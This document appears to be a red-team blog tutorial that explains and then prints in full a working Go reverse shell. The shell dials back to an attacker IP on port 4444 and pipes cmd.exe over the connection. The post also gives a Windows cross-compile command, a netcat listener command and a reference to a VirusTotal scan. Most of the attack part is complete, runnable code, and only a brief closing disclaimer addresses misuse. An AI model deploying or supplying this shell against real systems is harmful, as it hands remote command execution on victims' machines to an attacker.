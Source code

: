 ```yaml
---
layout: post
title: "Reverse Shell in Go"
date: 2024-06-18
categories: Reconnaissance Enumeration
tags: redteam, mitre, killchain, cpent, LPT, cpts, oscp, exploit
permalink: /go-revshell/
---
```


    # Building a Reverse Shell in Go

    In this tutorial, we'll explore how to create a basic reverse shell in Go. A reverse shell is a type of shell where the target machine communicates back to the attacking machine. This can be useful for remote administration or accessing a system that is behind a firewall.

    ## Understanding the Code

    Let's break down the code step by step:

    ### Package and Imports

    ```go
    package main

    import (
        "fmt"
        "net"
        "os"
        "os/exec"
        "time"
    )
    ```

    - `package main`: Indicates that this Go file is the main package, which can be executed.
    - `import`: Importing necessary packages for our program. We import `fmt` for formatting, `net` for networking operations, `os` for operating system functionalities, `os/exec` for executing external commands, and `time` for time-related operations.

    ### Variables

    ```go
    var (
        a1 = "192.168.23.129"
        a2 = 4444
    )
    ```

    - `a1` and `a2` are variables storing the IP address and port number, respectively, of the attacker's machine.

    ### Function `e1()`

    ```go
    func e1() {
        if a1 == "0.0.0.0" || a2 == 0 {
            fmt.Fprintln(os.Stderr, "[ERROR] a1 and/or a2 not defined.")
            os.Exit(1)
        }
    }
    ```

    - `e1()` checks if the IP address (`a1`) or port number (`a2`) is not defined and exits the program with an error message if they are not defined.

    ### Function `e2()`

    ```go
    func e2() net.Conn {
        var c net.Conn
        var err error
        for {
            c, err = net.Dial("tcp", fmt.Sprintf("%s:%d", a1, a2))
            if err == nil {
                break
            }
            time.Sleep(5 * time.Second)
        }
        return c
    }
    ```

    - `e2()` attempts to establish a TCP connection to the attacker's machine (`a1:a2`). It retries every 5 seconds until a successful connection is made and returns the connection object `c`.

    ### Function `e3()`

    ```go
    func e3(c net.Conn) {
        cmd := exec.Command("cmd")
        cmd.Stdin = c
        cmd.Stdout = c
        cmd.Stderr = c
        err := cmd.Start()
        if err != nil {
            fmt.Fprintln(os.Stderr, "[ERROR] cmd start failed:", err)
            os.Exit(1)
        }
        cmd.Wait()
    }
    ```

    - `e3()` executes the `cmd` command on the target machine, redirecting its standard input, output, and error to the network connection `c`.

    ### Main Function

    ```go
    func main() {
        e1()
        c := e2()
        e3(c)
    }
    ```

    - The `main()` function calls `e1()` to check if the IP address and port are defined, then establishes a connection using `e2()` and executes the `cmd` command using `e3()`.

    ### Running the Code

    To run this code, you need to replace `a1` and `a2` with your own IP address and port number. Compile the code using `go build` and run the resulting executable on the target machine.

    In your attacker machine, you can listen for incoming connections using tools like `nc` or `netcat`:

    ```bash
    nc -nlvp 4444
    ```

    Once the connection is established, you should see a command prompt from the target machine on your attacker machine, allowing you to execute commands remotely.

    This is a basic example of a reverse shell in Go. Remember, using such techniques for unauthorized access is illegal and unethical. Always ensure you have proper authorization before attempting any remote administration.

```go
package main

import (
	"fmt"
	"net"
	"os"
	"os/exec"
	"time"
)

var (
	a1 = "192.168.23.129"
	a2 = 4444
)

func e1() {
	if a1 == "0.0.0.0" || a2 == 0 {
		fmt.Fprintln(os.Stderr, "[ERROR] a1 and/or a2 not defined.")
		os.Exit(1)
	}
}

func e2() net.Conn {
	var c net.Conn
	var err error
	for {
		c, err = net.Dial("tcp", fmt.Sprintf("%s:%d", a1, a2))
		if err == nil {
			break
		}
		time.Sleep(5 * time.Second)
	}
	return c
}

func e3(c net.Conn) {
	cmd := exec.Command("cmd")
	cmd.Stdin = c
	cmd.Stdout = c
	cmd.Stderr = c
	err := cmd.Start()
	if err != nil {
		fmt.Fprintln(os.Stderr, "[ERROR] cmd start failed:", err)
		os.Exit(1)
	}
	cmd.Wait()
}

func main() {
	e1()
	c := e2()
	e3(c)
}


```
## Compilation
```sh
GOOS=windows GOARCH=amd64 go build -o crust.exe curb.go
```


    ### Virustotal Scan
    ![alt text](go-revshell.png)
    
    ### session

    ![alt text](go-revshell-2.png)


#peacout


